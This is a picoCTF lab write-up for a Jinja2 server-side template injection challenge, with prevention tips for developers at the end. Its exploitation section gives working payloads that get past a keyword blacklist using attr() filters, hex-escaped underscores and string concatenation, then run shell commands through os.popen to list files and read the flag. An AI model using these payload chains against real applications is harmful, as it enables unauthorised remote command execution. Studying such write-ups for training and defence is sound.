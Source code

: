 
# 🧠 SSTI CTF Challenge Writeup – SSTI2

**Platform:** picoCTF  
**Challenge Name:** SSTI2  
**Category:** Web Exploitation  
**Points:** 200  
**Date:** 2025-06-27

---

## 📝 Challenge Description

> I made a cool website where you can announce whatever you want!  
> I read about input sanitization, so now I remove any kind of characters that could be a problem :)

---

## 🔍 Initial Observations

- User input is rendered in the template
- Basic math payload works → **SSTI confirmed**
- Some keywords trigger: `"Stop trying to break me >:("`

---

## ✅ Exploitation Steps

### 1. SSTI Confirmed
```jinja2
{{ 7 * 7 }}
```
**Output:**
```
49
```

---

### 2. Access Internal Variables
```jinja2
{{ config }}
```

---

### 3. Bypass WAF / Filters

Blocked:
```jinja2
{{ config.__class__ }}
```

Bypass using `attr()` and hex:
```jinja2
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f') }}
```

Full chain with command execution:
```jinja2
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')
|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')
|attr('__import__')('os')|attr('popen')('ls')|attr('read')() }}
```

---

### 4. Discover Flag File
**Output:**
```
__pycache__  app.py  flag  requirements.txt
```

---

### 5. Read the Flag with String Obfuscation
```jinja2
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')
|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')
|attr('__import__')('os')|attr('popen')('c' ~ 'at fl' ~ 'ag')
|attr('read')() }}
```

---

## 🧠 What I Learned

- Detecting and exploiting Server-Side Template Injection
- Using Jinja2 context (`request`, `config`, etc.)
- Evading blacklists with:
  - `|attr()`
  - Hex for `__`
  - String concat (`'c' ~ 'at'`)
- Achieving RCE with `popen().read()`

---

## 🛡 Prevention Tips (for Devs)

- Never render unsanitized user input into templates
- Use sandboxed rendering or static rendering engines
- Escape all input using proper template escaping
- Favor whitelisting over blacklisting

---

## 🏁 Flag

```
picoCTF{example_fake_flag_here}
```

---

## 📁 Repo Structure Suggestion

```
writeups/
├── picoCTF_2025/
│   └── SSTI2/
│       ├── README.md
│       └── screenshot.png
```

---

## 📌 References

- [Payload All The Things – SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [Jinja2 Docs](https://jinja.palletsprojects.com/)
